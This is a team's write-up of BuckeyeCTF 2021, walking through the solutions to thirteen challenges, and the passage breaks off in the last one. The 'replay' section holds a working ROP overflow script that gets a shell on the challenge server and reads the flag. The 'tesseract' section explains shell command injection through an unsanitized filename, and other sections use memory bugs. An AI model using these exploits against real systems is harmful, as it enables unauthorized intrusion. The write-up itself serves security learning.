



# BuckeyeCTF 2021

CTF run by students from Cyber Security Club @ Ohio State.

BuckeyeCTF is intended to be beginner-friendly and is geared towards university teams, but there will be a wide range of difficulty.

## Overview 

| Title | Category | Points | Solves | Submitted | WriteUp | Flag |
|-------|----------|--------|--------|-----------|---------|------|
| [sanity_check](#sanity_check) | misc | 1 | 426 | ✔️ | ✔️ | ✔️ |
| [survey](#survey) | misc | 1 | 52 | ✔️ | ✔️ | ✔️ |
| [staff](#staff) | pwn | 25 | 192 | ✔️ | ✔️ | ✔️ |
| [replay](#replay) | misc | 30 | 184 | ✔️ | ✔️ | ✔️ |
| [layers](#layers) | misc | 30 | 144 | ✔️ | ✔️ | ✔️ |
| [pay2win](#pay2win) | web | 50 | 247 | ✔️ | ✔️ | ✔️ |
| [Don't Talk to Blue Birds](#don_t_talk_to_blue_birds) | misc | 60 | 159 | ✔️ | ✔️ | ✔️ |
| [Open Source In(sta)telligence](#open_source_in_sta_telligence) | misc | 60 | 135 | ✔️ | ✔️ | ✔️ |
| [BASIC](#basic) | rev | 60 | 113 | ✔️ | ✔️ | ✔️ |
| [tesseract](#tesseract) | web | 80 | 60 | ✔️ | ✔️ | ✔️ |
| [Buttons](#buttons) | rev | 85 | 166 | ✔️ | ✔️ | ✔️ |
| [USB Exfiltration](#usb_exfiltration) | misc | 252 | 106 | ✔️ | ✔️ | ✔️ |
| [headless_horseman](#headless_horseman) | rev | 378 | 59 | ✔️ | ✔️ | ✔️ |

---

## sanity_check

**Challenge**

Kyle promised to make four challenges but he didn't tell me one of them would be sanity. Join the CTF discord and check his profile (arcsolstice)

 > arcsolstice and ath0

**WriteUp**

Just join the Discord guild and look at Kyle’s profile.


Done! We have our flag "`buckeye{thX_4_p1ayin9}`"

## survey

**Challenge**

Please have every member of your team complete the survey, though only one of you needs to submit the flag (found at the end of the survey)
https://forms.gle/6fXv3Vkokx5s3xgH8

NOTE: This challenge does not count toward time-based tiebreak. Please take as much time as you need.

 > Cyber Security Club @ Ohio State

**WriteUp**

This one is just as easy, just answer the questionnaire and voilà!


Done! We have our flag "`buckeye{th4nk5_f0r_pl4y1ng}`"

## staff

**Challenge**

Dr. Staff will see you now...

`nc pwn.chall.pwnoh.io 13383`

[staff.zip](./staff.zip)

 > ath0

**WriteUp**

In the archive we have the source code of the challenge and the schedule linked in a text file.

With the source code we understand that odd lines are courses and even lines are instructors.

The flag is the instructor of the course "FLAG 1337", so we just need to get the information on the course.

```txt
What would you like to do?
1. Search for a course
2. Search for an instructor
> 1
What course would you like to look up?
> FLAG 1337
This course will be taught by: Staff
```

Well, the names of all the instructors are protected and replaced by "Staff"...

What happens if we ask for information about the Staff?


```txt
What would you like to do?
1. Search for a course
2. Search for an instructor
> 2
What instructor would you like to look up?
> Staff
There were 6 results, please be more specific in your search.
Professor Staff will teach  , but we'll probably change our minds the week before classes start.
```

The last sentence is incomplete, if we look at the code of the `find_instructor` function we can see that the value of the course variable is not instantiated so we have garbage. Let’s play with that!

Let’s put the flag in the garbage and read it by first asking for info on the course "FLAG 1337" then asking for info on the Staff.

```txt
What would you like to do?
1. Search for a course
2. Search for an instructor
> 1
What course would you like to look up?
> FLAG 1337
This course will be taught by: Staff
What would you like to do?
1. Search for a course
2. Search for an instructor
> 2
What instructor would you like to look up?
> Staff
There were 6 results, please be more specific in your search.
Professor Staff will teach buckeye{if_0n1y_th15_w0rk3d}, but we'll probably change our minds the week before classes start.
```

Done! We have our flag "`buckeye{if_0n1y_th15_w0rk3d}`"

## replay

**Challenge**

Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on misc.chall.pwnoh.io on port 13371. Can you pwn it for me?

[replay.pcap](./replay.pcap)

 > qxxxb

**WriteUp**

Let’s start by opening the pcap in Wireshark and applying a simple filter `data.len > 0`.

Oh look what we find, a big data, from my experience it’s an overflow to run a ROP that gives us access to a shell.


Let’s copy the data and send it to netcat to see if it works.

```py
import socket
 
class Netcat:
    def __init__(self, ip, port):
        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)

    def write(self, data):
        self.socket.send(data)

    def close(self):
        self.socket.close()

rop = "\x61\x61\x61\x61\x62\x61\x61\x61\x63\x61\x61\x61\x64\x61\x61\x61" \
"\x65\x61\x61\x61\x66\x61\x61\x61\x67\x61\x61\x61\x68\x61\x61\x61" \
"\x69\x61\x61\x61\x6a\x61\x61\x61\x6b\x61\x61\x61\x6c\x61\x61\x61" \
"\x6d\x61\x61\x61\x6e\x61\x61\x61\x6f\x61\x61\x61\x70\x61\x61\x61" \
"\x71\x61\x61\x61\x72\x61\x61\x61\x73\x61\x61\x61\x74\x61\x61\x61" \
"\x75\x61\x61\x61\x76\x61\x61\x61\x77\x61\x61\x61\x78\x61\x61\x61" \
"\x79\x61\x61\x61\x7a\x61\x61\x62\x62\x61\x61\x62\x63\x61\x61\x62" \
"\x64\x61\x61\x62\x65\x61\x61\x62\x66\x61\x61\x62\x67\x61\x61\x62" \
"\x68\x61\x61\x62\x69\x61\x61\x62\x55\x11\x40\x00\x00\x00\x00\x00" \
"\x0f\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x04\x20\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x3b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x33\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x0a"


nc = Netcat("misc.chall.pwnoh.io", 13371)

print(nc.read())
nc.write(rop)
nc.write("cat flag.txt\n")
print(nc.read())
```

```bash
python ./script.py
b'HELLO HOW ARE YOU DOING TODAY\n'
b'buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}\n'
```

Done! We have our flag "`buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}`"

## layers

**Challenge**

Check out my brand new docker repo https://hub.docker.com/r/qxxxb/layers

 > qxxxb

**WriteUp**

So we have a docker image and according to its history the file we are interested in has been deleted: `/bin/sh -c rm flag.png`

We will therefore have to find a way to recover this deleted file and as the name of the challenge indicates it will be necessary to search the layers of the image to find the file.

Let’s use dive to find the digest of the layer still containing our file: `dive qxxxb/layers:latest`


We have found it! Save the image and decompress it

```bash
docker save qxxxb/layers:latest -o layers.tar
tar -xf layers.tar
cd 2666b07eae46b4516159272aa828b8269a2ec20cd99bd1e74da816f9dc1e3f00
tar -xf layer.tar
ls
```
```ls
Dockerfile  VERSION  flag.png  json  layer.tar
```

Let’s open this deleted file!



Done! We have our flag "`buckeye{D0CK3R_H4S_L4Y3RS}`"

## pay2win

**Challenge**

Kyle started an online magazine (The Daily Kyle) and published one of my articles on his site. Don't worry, the article literally contains the flag in plaintext, but if you want to read it you'll have to figure out how to bypass the paywall.

URL: https://pay2win.chall.pwnoh.io

 > qxxxb

**WriteUp**

We open the link and ok from the beginning it’s boring, hundreds of pop-ups...

We’ll make a local copy of the website and change the JavaScript inside `main.js`.

before:
```js
/******/ (() => { // webpackBootstrap
/******/ 	"use strict";
var __webpack_exports__ = {};

;// CONCATENATED MODULE: ./node_modules/devtools-detect/index.js
/*!
devtools-detect
https://github.com/sindresorhus/devtools-detect
By Sindre Sorhus
MIT License
*/

const devtools = {
	isOpen: false,
	orientation: undefined,
};

const threshold = 160;

const emitEvent = (isOpen, orientation) => {
	globalThis.dispatchEvent(new globalThis.CustomEvent('devtoolschange', {
		detail: {
			isOpen,
			orientation,
		},
	}));
};

const main = ({emitEvents = true} = {}) => {
	const widthThreshold = globalThis.outerWidth - globalThis.innerWidth > threshold;
	const heightThreshold = globalThis.outerHeight - globalThis.innerHeight > threshold;
	const orientation = widthThreshold ? 'vertical' : 'horizontal';

	if (
		!(heightThreshold && widthThreshold)
		&& ((globalThis.Firebug && globalThis.Firebug.chrome && globalThis.Firebug.chrome.isInitialized) || widthThreshold || heightThreshold)
	) {
		if ((!devtools.isOpen || devtools.orientation !== orientation) && emitEvents) {
			emitEvent(true, orientation);
		}

		devtools.isOpen = true;
		devtools.orientation = orientation;
	} else {
		if (devtools.isOpen && emitEvents) {
			emitEvent(false, undefined);
		}

		devtools.isOpen = false;
		devtools.orientation = undefined;
	}
};

main({emitEvents: false});
setInterval(main, 500);

/* harmony default export */ const devtools_detect = (devtools);

;// CONCATENATED MODULE: ./src/main.js
/* global swal */


const overlayMask = document.querySelector('#overlay-mask')
const popups = document.querySelectorAll('.popup')

const cookieMessage = document.querySelector('#cookie-message')
const notifPermissionFake = document.querySelector('#notif-permission-fake')
const notifPermissionReal = document.querySelector('#notif-permission-real')
const subscribe = document.querySelector('#subscribe')
const membership = document.querySelector('#membership')
const continueReading = document.querySelector('#continue-reading')

const subscribeNewsletterAlert = {
  title: 'Subscribe to our Newsletter!',
  text: 'Please enter your email address',
  content: subscribe,
  buttons: ['OK', 'No thanks']
}

const adblockAlert = {
  title: 'Adblock detected',
  text: 'Please disable your adblocker',
  icon: 'error'
}

const scrollAlert = {
  icon: 'info',
  title: 'You scrolled!',
  text: "Seems like you're interested in our content! Now please subscribe to our newsletter:",
  content: subscribe,
  buttons: ['OK', 'No thanks']
}

const flagAlert = {
  icon: 'error',
  title: 'The flag is only available to paying members!',
  text: 'Enter your email address to sign up:',
  content: subscribe,
  buttons: ['OK', 'No thanks']
}

const luckyAlert = {
  icon: 'success',
  title: 'You are the 5,000,000th visitor on this website!',
  text: 'Claim your $1,000 cash award NOW!',
  content: subscribe,
  buttons: ['Yes please', 'No thanks']
}

const devtoolsAlert = {
  icon: 'error',
  title: 'Trying to open DevTools?',
  text: "Well that's not allowed.",
  button: "Sorry I'll leave now",
  closeOnClickOutside: false,
  closeOnEsc: false
}

function closePopup (popup) {
  overlayMask.classList.remove('active')
  popup.classList.remove('active')
  document.body.classList.remove('no-scroll')
}

function openPopup (popup) {
  popup.classList.add('active')
  overlayMask.classList.add('active')
  document.body.classList.add('no-scroll')
}

let alerting = false

async function doAlert (config, force = false) {
  if (!alerting || force) {
    alerting = true
    document.body.classList.add('no-scroll')
    await swal(config)
    document.body.classList.remove('no-scroll')
    alerting = false
  }
}

const closeEvent = new Event('close')

for (const popup of popups) {
  const closers = popup.querySelectorAll('.close')
  for (const closer of closers) {
    closer.addEventListener('click', (event) => {
      closePopup(popup)
      popup.dispatchEvent(closeEvent)
    })
  }
}

function welcomeSequence () {
  openPopup(cookieMessage)

  cookieMessage.addEventListener('close', (event) => {
    openPopup(notifPermissionFake)
  })

  notifPermissionFake.addEventListener('close', (event) => {
    openPopup(notifPermissionReal)
  })

  notifPermissionReal.addEventListener('close', async (event) => {
    await doAlert(subscribeNewsletterAlert)
    await doAlert(adblockAlert)
    openPopup(membership)
  })

  membership.addEventListener('close', (event) => {
    openPopup(continueReading)
    setTimeout(welcomeSequence, 4000)
  })
}

async function beLucky () {
  await doAlert(luckyAlert)
  setTimeout(beLucky, 10000)
}

function addScrollListener () {
  window.addEventListener('scroll', async function scrollListener (event) {
    await doAlert(scrollAlert)
    window.removeEventListener('scroll', scrollListener)
    setTimeout(addScrollListener, 500)
  })
}

async function devToolsOpen (event) {
  setTimeout(
    () => {
      window.location.href = 'https://youtu.be/dQw4w9WgXcQ'
    },
    2000
  )

  await doAlert(devtoolsAlert, true)
}

function addFocusListener () {
  if (devtools_detect.isOpen) {
    devToolsOpen()
  }
  window.addEventListener('focus', async function scrollListener (event) {
    if (devtools_detect.isOpen) {
      devToolsOpen(null)
    }
  })
}

function plantFlag () {
  const ciphertext = [234, 240, 234, 252, 214, 236, 140, 247, 173, 191, 158, 132, 56, 4, 32, 73, 235, 193, 233, 152, 125, 19, 19, 237, 186, 131, 98, 52, 186, 143, 127, 43, 226, 233, 126, 15, 225, 171, 85, 55, 173, 123, 21, 147, 97, 21, 237, 11, 254, 129, 2, 131, 101, 63, 149, 61]
  const plaintext = ciphertext.map((x, i) => ((i * i) % 256) ^ x ^ 0x99)

  const flagElement = document.querySelector('#flag')
  plaintext.map((x, i) => {
    const span = document.createElement('span')
    span.classList.add(`flag-char-${i}`)
    span.textContent = String.fromCharCode(x)
    flagElement.appendChild(span)
    return span
  })

  const flagOverlay = document.querySelector('#flag-overlay')
  flagOverlay.addEventListener('mouseover', async () => {
    await swal(flagAlert)
  })
}

function spamConsole () {
  const randomColor = Math.floor(Math.random() * 16777215).toString(16)
  console.log(
    '%c                                                                ',
    `background: #${randomColor}`
  )
  setTimeout(spamConsole, 100)
}

const hostname = document.querySelector('#hostname')
hostname.textContent = window.location.href

welcomeSequence()
setTimeout(addScrollListener, 1000)
setTimeout(addFocusListener, 3000)
setTimeout(beLucky, 2000)

plantFlag()

spamConsole()
window.addEventListener('devtoolschange', devToolsOpen)

;// CONCATENATED MODULE: ./src/index.js


/******/ })()
;
```

after:
```js
function plantFlag () {
  const ciphertext = [234, 240, 234, 252, 214, 236, 140, 247, 173, 191, 158, 132, 56, 4, 32, 73, 235, 193, 233, 152, 125, 19, 19, 237, 186, 131, 98, 52, 186, 143, 127, 43, 226, 233, 126, 15, 225, 171, 85, 55, 173, 123, 21, 147, 97, 21, 237, 11, 254, 129, 2, 131, 101, 63, 149, 61]
  const plaintext = ciphertext.map((x, i) => ((i * i) % 256) ^ x ^ 0x99)

  const flagElement = document.querySelector('#flag')
  plaintext.map((x, i) => {
    const span = document.createElement('span')
    span.classList.add(`flag-char-${i}`)
    span.textContent = String.fromCharCode(x)
    flagElement.appendChild(span)
    return span
  })

}

plantFlag()
```

It’s so much better this way!

In the middle of lorem ipsum we find our flag hidden by a gray layer, we remove the layer and it is now visible.


Done! We have our flag "`buckeye{h0ly_sh1t_wh4t_th3_h3ck_1s_th1s_w31rd_ch4ll3ng3}`"

## Don't Talk to Blue Birds

**Challenge**

Gillian Owens is the head of Witch Security. She's been oversharing on her personal accounts. Challenge type: OSINT. Note: flag format is flag{} for this challenge!

 > sтерн (admin is arcsolstice)

**WriteUp**

This is an OSINT research challenge. Moreover the name of the challenge speaks of a blue bird, except the only network with the blue bird logo is Twitter.

We do a very simple search on this network and we come across a single account:



This account shared a pastebin when responding to a tweet:



When you open the [pastebin](https://pastebin.com/qXDb43m1), you find the flag!

Done! We have our flag "`flag{aggre55ive_Hall0we3n_prepArati0ns_Und3rw4y}`"

## Open Source In(sta)telligence

**Challenge**

Gillian Owens is the head of Witch Security. She's been oversharing on her personal accounts. Challenge type: OSINT. Note: flag format is flag{} for this challenge!

 > sтерн (admin is arcsolstice)

**WriteUp**

This challenge has exactly the same description as the previous one.

The change is in the name, we are clearly told to look at Instagram.

We do the same search as on Twitter and it’s the same result, only one account:


On one of these posts there is a computer with a post-it that contains a url.


When we open the [bit.ly](https://bit.ly/3jgDwui) link we come across a new pastebin with our flag.

Done! We have our flag "`flag{spo00ky_szn_15_very_AestH3tic}`"

## BASIC

**Challenge**

Get ready to go back to high school cause we're breaking out those graphing calculators! The ROM file is just to help run the challenge, you shouldn't have to reverse any of it. P.S. Remember that flags are case sensitive!

[BASIC.8xp](./BASIC.8xp) [ti84plus.rom](./ti84plus.rom)

 > arcsolstice

**WriteUp**

For this challenge we are given the rom of a calculator and a program for it, let’s launch an emulator!


I just redone the program in python and changed some elements so that in the end the program prints directly the flag

```py
str = "F4X67ENQPK0{MTJRHL}O3G59UB-ZAWV8S2YI1CD"
list = [26, 25, 38, 10, 6, 35, 6, 12, 13, 2, 14, 17, 27, 38, 18, 29, 23, 23, 27, 30, 2, 33, 27, 26, 11, 16, 37, 7, 22, 19]

input = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

if len(input) != 30:
    exit()

for i in range(30):
    print(f"{str[list[i] - 1]}", end='')
    #if input[i] != str[list[i] - 1]:
        #exit()

#print("Win!")
```

```bash
python basic.py
BUCKEYE{M4TH-CLA55-W4S-B0R1NG}
```

Done! We have our flag "`buckeye{M4TH-CLA55-W4S-B0R1NG}`"

## tesseract

**Challenge**

Check out our OCR-as-a-service!

https://tesseract.chall.pwnoh.io

[tesseract.zip](./tesseract.zip)

 > ath0

**WriteUp**

We have access to a website that allows us to upload an image and analyze the text on it.

We also have access to the source code.

We can see how the tesseract binary is executed.

```py
process = subprocess.run(
    f"tesseract \'{process_path}\' \'{process_path}\' -l eng",
    shell=True,
    check=False,
    capture_output=True,
)
```

You can see that the file name is passed without being sanitized, so you can execute any bash command by changing the filename.

We send any file and intercept the request with Burp.


You can see that the standard and error output are displayed.

Done! We have our flag "`buckeye{5an1t1ze_y0ur_c0mm4nds_or_just_d0nt_use_c0mm4nds_1n_th3_f1r5t_p1ac3}`"

## Buttons

**Challenge**

Anyone taken Software 1? Can you help me figure out what this weird Java program does?

[Buttons.jar](./Buttons.jar)

 > qxxxb

**WriteUp**

We launch the software and we can see that it’s a maze.


We can try to decompile the Jar to see what it is hiding inside and we can find a grid there.


Once given in 21x21 format we can see that zeros form a path that is our solution.

```java
private static final int[][] grid = new int[][]
{
  {1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1}, 
  {1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1}, 
  {1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1}, 
  {1, 0, 1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1}, 
  {1, 0, 1, 0, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1}, 
  {1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1}, 
  {1, 0, 1, 1, 1, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1}, 
  {1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 1}, 
  {1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1}, 
  {1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1}, 
  {1, 0, 1, 0, 1, 1, 1, 1, 1, 0, 1, 0, 1, 1, 1, 1, 1, 0, 1, 0, 1}, 
  {1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1}, 
  {1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1}, 
  {1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 1}, 
  {1, 1, 1, 1, 1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1}, 
  {1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1}, 
  {1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1}, 
  {1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1}, 
  {1, 0, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1}, 
  {1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1}, 
  {1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1}
};
```

We apply the path and a popup gives us the flag.


Done! We have our flag "`buckeye{am4z1ng_j0b_y0u_b1g_j4va_h4ck3r}`"

## USB Exfiltration

**Challenge**

Someone stole data from our servers and you need to figure out exactly what they took or you're fired! We know they zipped the files then transferred them via USB somehow so here's a capture of the USB traffic. You should be able to recover the files from that, right?

[exfiltration.pcapng](./exfiltration.pcapng)

 > arcsolstice

**WriteUp**

Let’s start by opening the pcap in Wireshark and applying a simple filter `(usb.src == "host" ) && len(usb.capdata) > 0` to see data sent to the USB drive.


We can concatenate all the data in raw binary file. The raw file contains another file named flag.b64.

```bash
tshark -T fields -e usb.capdata -r exfiltration.pcapng -Y "(usb.src == \"host\" ) && len(usb.capdata) > 0" | tr -d '\n',':' | xxd -r -ps > output.bin
binwalk -e output.bin
cat _output.bin.extracted/flag.b64
```

The contents of the file are: `YnVja2V5ZXt3aHlfMXNudF83aDNyM180X2RpNTVlY3Qwcl80X3RoMXN9Cg==`.

Once decoded from base64 we obtain: `buckeye{why_1snt_7h3r3_4_di55ect0r_4_th1s}`.

Done! We have our flag "`buckeye{why_1snt_7h3r3_4_di55ect0r_4_th1s}`"

## headless_horseman
 
**Challenge**

Our sponsor, Battelle, donated this challenge. The challenge will be posted on their [Cyber Challenge site](https://www.battelle.org/cyber-challenge) at the beginning of BuckeyeCTF, and was created for this competition.

Be sure to select the Headless Horseman challenge, although there are others on their site not associated with BuckeyeCTF. Flag format: flag{...}

---

### The Legend of the Headless Horseman

A mysterious figure has been terrorizing the village of Sleepy Hollow. He rides a massive horse, swings a mighty scythe and has been collecting heads from any who draw near. A group of locals, Ichabod Crane, Katrina Van Tassel, and Abraham "Brom Bones" Van Brunt have been working to discover the secret behind this mysterious menace, but just as they were on the verge of putting the pieces together, the Headless Horseman struck! All that are left of the heroes are some unidentifiable bodies with no heads!

Can you help put our heroes back together, and figure out what secrets they uncovered? You'll first need to bargain with the horseman... bring some pumpkins with you.. a LOT of pumpkins.

[headless_horseman.zip](./headless_horseman.zip)

**WriteUp**

In the zip we find ourselves with a readme telling us a small story, a binary and a folder with "bodies"

By disassembling we can find a function named `count_offering()` that checks the number of pumpkins we give it.


```c
bool first_count(int a1)
{
  return (a1 & 0xFFFF0000) >> 16 == 0xDEAD;
}
```

```c
bool second_count(int a1)
{
  return a1 << 16 == 0xFACE0000;
}
```

It can be concluded that number must be equal to `0xDEADFACE` or `3735943886`.

```bash
 ./headless_horseman

You see a dark figure looming in the darkness
As you approach he raises his hand to stop you
The figure holds up a bloody sack as if offering the contents to you
He holds out his other hand, as if expecting some kind of offering
you look back in your cart and scan over the pumpkins you brought.. will it be enough?
how many pumpkins did you bring with you this time? 3735943886
The figure pulls a head off the saddle and holds it over the cart and you hear it mumble as it inspects your offering
You hear a grunt of approval but the mumbling continues
The figure turns to you and nods, pulling out his bag of heads, dumping them on the ground in front of you
A quick count indicates more heads than you were expecting, he is quite the collector!
well, you seem have gotten what you came for..time to start stitching
As you pick up the first head you begin to wonder which body it might belong to, and how on earth you might go about reviving these poor souls...
maybe you can use the fabled Quick and Efficient Murder Un-Doer(QEMU for short)
```

We end up with new heads files.


The heads and bodies must then be merged to give complete programs that can be executed.

```bash
cat moldy_head > person1
cat body_bag/bloated_body >> person1
file person
person: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, BuildID[sha1]=fb3ef826027d1a22e0926cd609bc9453dab03662, for GNU/Linux 3.2.0, not stripped
```

We have our first recomposed person

```bash
cat dessicated_head > person2
cat body_bag/decomposing_body >> person2
file person
person: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, BuildID[sha1]=c96a5a55d131a48d6e034236330d1925e890f360, for GNU/Linux 3.2.0, not stripped
```

We have our second recomposed person

```bash
cat shrunken_head > person3
cat body_bag/rotting_body >> person3
file person
person: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=46ee2457ce9871242b7ad74249a3a19091cd0c52, for GNU/Linux 3.2.0, not stripped
```

We have our third and last recomposed person.

Disassembling the first person:


```c
int check_surroundings()
{
  int v1;

  v1 = getenv("ICHABODS_HORSE");
  puts(v1);
  return strcmp(v1, horse_name);
}
```

So we have Ichabod who gives us our information if our environment variable has the name of his horse, and according to the disassembly his name is "GUNPOWDER".

```txt
ICHABODS_HORSE=GUNPOWDER ./person1
Ichabod Crane gasps as life returns to his body
He begins looking around frantically
GUNPOWDER
'ah, my trusty steed GUNPOWDER is here, all is well' he says, pulling something out of a saddlebag
'Here, I don't have the whole secret, but here is the piece I was able to find'
flag{the_horseman_just_
```

We have a first part of the flag : `flag{the_horseman_just_`.

We execute the first person, Katrina, who asks us the name of her Home Town to give us a new part of our key, the only town we’re given is in the Readme which is "Sleepy Hollow"

```txt
❯ ./person2
Katrina blinks awake, seeming a bit shocked ot be waking up again
'Oh! hello there! just before the lights went out I was working with Ichabod and Brom to get rid of that pesky horseman for good!'
'Drat! it looks like I encrypted my portion but I cant seem to remember what I used!'
'can you help me out? I was never very creative with these things, maybe try the street I grew up on? or my Home Town?'
What should Katrina use as the decryption key? Sleepy Hollow
'You really think it's that?'
'Well i'll give that a shot, does this look right?'
really_loves_
```

We have a second part of the flag : `really_loves_`.

The last one is an overflow to write 0x44414544 on another variable, this hexadecimal is equal to "DEAD".


```txt
./person3
Brom shakes himself off as he stands up
